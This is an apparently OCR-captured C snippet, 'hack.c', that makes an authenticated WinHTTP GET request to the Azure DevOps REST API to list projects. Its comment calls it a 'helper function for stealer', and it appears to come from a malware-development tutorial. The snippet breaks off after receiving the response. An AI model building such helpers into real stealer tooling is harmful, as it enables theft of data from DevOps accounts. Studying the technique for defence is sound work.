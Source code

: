 ```cpp
/*
 * hack.c
 * minimal simple GET request to 
 * Azure DevOps REST API: 
 * list of projects
 * helper function for stealer
 * author @cocomelonc
 */
#include <stdio.h>
#include <windows.h>
#include <winhttp.h>
 
int main() {
  HINTERNET hSession, hConnect, hRequest;
  DWORD bytesRead;
  char buffer[4096];
 
  // init
  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY,
            WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (!hSession) {
    printf("WinHttpOpen failed: %lu\n", GetLastError());
    return 1;
  }
 
  // connect to dev.azure.com (HTTPS)
  hConnect = WinHttpConnect(hSession, L"dev.azure.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (!hConnect) {
    printf("WinHttpConnect failed: %lu\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }
 
  // GET-req
  hRequest = WinHttpOpenRequest(
    hConnect,
    L"GET",
    L"/cocomelonkz/_apis/projects?api-version=7.1",
    NULL, WINHTTP_NO_REFERER,
    WINHTTP_DEFAULT_ACCEPT_TYPES,
    WINHTTP_FLAG_SECURE
  );
 
  // headers
  const wchar_t *headers =
    L"Accept: application/json\r\n"
    L"Authorization: Basic <my base64 encoded token here>"
    L"\r\n";
 
  WinHttpAddRequestHeaders(hRequest, headers, (ULONG)-1, WINHTTP_ADDREQ_FLAG_ADD);
 
   // send request
  if (!WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0,
    WINHTTP_NO_REQUEST_DATA, 0, 0, 0)) {
    printf("WinHttpSendRequest failed: %lu\n", GetLastError());
    return 1;
  }
 
  if (!WinHttpReceiveResponse(hRequest, NULL)) {
    printf("WinHttpReceiveResponse failed: %lu\n", GetLastError());
    return 1;
  }
 
```